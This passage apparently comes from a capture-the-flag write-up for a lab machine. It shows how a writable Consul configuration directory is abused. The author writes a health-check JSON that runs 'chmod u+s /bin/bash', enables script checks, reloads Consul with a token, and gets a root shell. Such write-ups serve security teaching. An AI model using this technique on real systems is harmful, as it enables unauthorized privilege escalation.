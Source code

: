After researching a bit in the documentation I noticed that the configuration directory was writable by the `developer` group. This means that we can load custom configuration to the Consul agent to make it do cool stuff by just adding `hcl` or `json` files to the configuration directory.

```bash
developer@ambassador:/etc/consul.d$ ls -la
total 24
drwxr-xr-x   3 consul consul    4096 Sep 27 14:49 .
drwxr-xr-x 103 root   root      4096 Sep 27 14:49 ..
drwx-wx---   2 root   developer 4096 Sep 14 11:00 config.d
-rw-r--r--   1 consul consul       0 Feb 28  2022 consul.env
-rw-r--r--   1 consul consul    5303 Mar 14  2022 consul.hcl
-rw-r--r--   1 consul consul     160 Mar 15  2022 README
```

I tried to use the `exec` option in the Consul CLI but was not working. I found some information about it and looks like it require extra configuration but, even though I tried to replicate the configuration given, I was not able to use this option to execute code directly for some reason. Quickly I saw another thing that could be interesting, Consul let you register health checks and basically you can run any code you want as part of them. I wrote this check following the documentation and added it to `/etc/consul.d/config.d/check.json`:

```json
{
  "check": {
    "id": "pwned",
    "name": "pwned",
    "args": [
      "/bin/sh",
      "-c",
      "chmod u+s /bin/bash"
    ],
    "interval": "5s",
    "timeout": "1s"
  }
}
```

After that, I also created a little `hcl` file (`/etc/consul.d/config.d/custom.hcl`) with only one line in it:

```
enable_script_checks = true
```

The idea is to enable checks that use scripts, this is off by default so I added it just in case. With everything ready, I reloaded the configuration and after some seconds I was able to pwn the machine!

```bash
developer@ambassador:/etc/consul.d$ consul reload --token bb03b43b-1d81-d62b-24b5-39540ee469b5
Configuration reload triggered
developer@ambassador:/etc/consul.d$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
developer@ambassador:/etc/consul.d$ bash -p
bash-5.0#
```

As you can see, the malicious check run and tranformed `/bin/bash` in a SUID binary we can use to easily get full privileges in the machine.
